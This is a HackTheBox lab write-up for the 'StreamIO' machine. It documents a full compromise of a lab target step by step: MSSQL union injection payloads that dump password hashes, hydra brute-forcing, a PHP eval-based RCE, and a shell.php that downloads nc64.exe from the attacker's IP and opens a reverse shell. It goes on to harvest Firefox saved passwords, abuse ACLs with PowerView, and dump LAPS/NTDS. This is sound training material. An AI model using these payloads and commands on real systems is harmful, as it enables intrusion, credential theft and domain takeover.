# StreamIO -- HackTheBox (write-up)

**Difficulty:** Hard
**Box:** StreamIO (HackTheBox)
**Author:** dkrxhn
**Date:** 2024-11-07

---

## TL;DR

### SQL injection on a movie search page dumped user hashes, which led to a web login. Parameter fuzzing found a hidden debug/include parameter that allowed RCE. Pivoted through multiple users via database creds, Firefox saved passwords, and BloodHound to abuse LAPS for domain admin.

---

## Target info

- Domain: `streamio.htb`
- Services discovered: `53/tcp`, `80/tcp`, `88/tcp`, `135/tcp`, `139/tcp`, `389/tcp`, `443/tcp`, `445/tcp`, `464/tcp`, `593/tcp`, `636/tcp`, `1433/tcp`, `3268/tcp`, `3269/tcp`, `5985/tcp`, `9389/tcp`

---

## Enumeration

```bash
nmap -p- -sCV 10.129.249.105 -vvv
```






- HTTPS on 443 was open. Added `watch.streamio.htb` to `/etc/hosts`.

Found potential users on the HTTP site:


- Added to `users.txt`.

---

## SQL injection

```bash
feroxbuster -u https://watch.streamio.htb -x php -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k
```

Found `/search.php`:


- SQL query uses wildcards on both sides, something like: `select * from movies where title like '%[input]%';`

Tested with `man';-- -`:



- Comments out the trailing wildcard, so all results end in "man".

vs just searching `man`:



Determined column count:

```sql
abcd' union select 1,2,3,4,5,6;-- -
```


- Second column returns data. Replaced with `@@version`:



Enumerated databases:

```sql
abcd' union select 1,name,3,4,5,6 from master..sysdatabases;-- -
```



Got current database:

```sql
abcd' union select 1,(select DB_NAME()),3,4,5,6;-- -
```


Enumerated user tables:

```sql
abcd' union select 1,name,3,4,5,6 from streamio..sysobjects where xtype='U';-- -
```



- `xtype='U'` filters to user-created tables only. Without it:



Got table IDs:

```sql
abcd' union select 1,name,id,4,5,6 from streamio..sysobjects where xtype='U';-- -
```



Used IDs to get columns:

```sql
abcd' union select 1,name,id,4,5,6 from streamio..syscolumns where id in (885578193,901578250);-- -
```



Dumped all users and password hashes:

```sql
abcd' union select 1,concat(username,':',password),3,4,5,6 from users;-- -
```



Cracked hashes with CrackStation. Notable cracks:
- `admin:paddpadd`
- `Barry:$hadoW`
- `yoshihide:66boysandgirls..`
- plus several others.

nxc **did not** find valid creds for SMB, LDAP, or WinRM with any of these.

Brute-forced the web login with hydra:

```bash
hydra -L users1.txt -P passwords.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=failed"
```



---

## Hidden parameter & RCE

After logging in, `/admin` was accessible (previously 403). Each link shows a different parameter:



- `?user=`, `?staff=`, `?movie=`, `?message=`

Grabbed the session cookie:



Fuzzed for hidden parameters:

```bash
wfuzz -u https://streamio.htb/admin/\?FUZZ\= -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=fbf6ev1okd8prjlbfm2kpp30cb" --hh 1678
```



- Found `?debug=`



Used PHP filter wrapper to read `master.php`:

```
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php
```

Decoded the source and found at the bottom:

```php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" )
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
```

- `eval(file_get_contents())` -- code execution via the `include` POST parameter.

Captured a request in Burp from `https://streamio.htb/admin/?debug=master.php`, changed GET to POST, added headers:
- `Pragma: no-cache`
- `Cache-Control: no-cache`
- `Content-Type: application/x-www-form-urlencoded`

Added: `include=http://10.10.14.172/rce.php`

Where `rce.php` contained:

```php
system("dir C:\");
```

Created `shell.php`:

```php
system("powershell -c wget 10.10.14.172/nc64.exe -outfile \programdata\nc64.exe");
system("\programdata\nc64.exe -e powershell 10.10.14.172 443");
```

```bash
rlwrap -cAr nc -lnvp 443
```

---

## Lateral movement

Connected as `yoshihide`, who has no profile on the machine.

Searched for passwords in `C:\inetpub`:

```powershell
Get-ChildItem -Recurse -File | Select-String -Pattern "PWD" | Select-Object Path, LineNumber, Line
```

```powershell
dir -recurse *.php | select-string -pattern "database"
```

Found:
- `db_admin:B1@hx31234567890`
- `db_user:B1@hB1@hB1@h`

Used `sqlcmd` (already installed) to query `streamio_backup`:

```bash
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select * from users;"
```

Found `nikk37:389d14cb8e4e9b94b137deb1caf0612a` -- cracked to `get_dem_girls2@yahoo.com`.

```bash
nxc winrm 10.129.107.166 -u nikk37 -p get_dem_girls2@yahoo.com
```

- `Pwn3d!`

```bash
evil-winrm -i 10.129.107.166 -u nikk37 -p 'get_dem_girls2@yahoo.com'
```

Found Mozilla Firefox in Program Files (x86) -- abnormal. Located saved passwords:

```powershell
Get-ChildItem -Path C:\Users\nikk37\AppData -Filter logins.json -Recurse -ErrorAction SilentlyContinue
```

Downloaded `logins.json` and `key4.db`, ran `firepwd.py`:

```bash
python firepwd.py
```

Found: `JDgodd:JDg0dd1s@d0p3cr3@t0r`

```bash
nxc smb 10.129.107.166 -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r'
```

- Valid for SMB and LDAP (not WinRM).

---

## BloodHound & LAPS

```bash
bloodhound-python -c All -u jdgodd -p 'JDg0dd1s@d0p3cr3@t0r' -ns 10.129.107.166 -d streamio.htb -dc streamio.htb --zip
```

`JDgodd` has 1 First Degree Object Control:



Shortest Path to Domain Admins from Owned Principals:



Back on nikk37's evil-winrm shell, uploaded PowerView and added JDgodd to Core Staff:

```powershell
. .\PowerView.ps1
$pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"
Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "StreamIO\JDgodd"
```

Used LAPS to get the admin password:

```bash
nxc smb 10.129.107.166 -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' --laps --ntds
```



- LAPS password: `[9z26A(3SOkt[(`

Other methods (PowerShell `Get-AdComputer` and `ldapsearch`) **did not** work:





```bash
evil-winrm -i 10.129.107.166 -u administrator -p '[9z26A(3SOkt[('
```

Root flag was not on administrator's desktop:

```powershell
Get-ChildItem -Path C:\ -Filter root.txt -Recurse -ErrorAction SilentlyContinue
type C:\Users\Martin\Desktop\root.txt
```

---

## Lessons & takeaways

- Parameter fuzzing on authenticated endpoints can reveal hidden functionality like `?debug=`
- PHP filter wrappers (`php://filter/convert.base64-encode`) let you read source code through LFI
- Firefox saved passwords (`logins.json` + `key4.db`) are a goldmine -- `firepwd.py` decrypts them offline
- LAPS passwords via `nxc --laps` can work even when PowerShell and ldapsearch methods fail
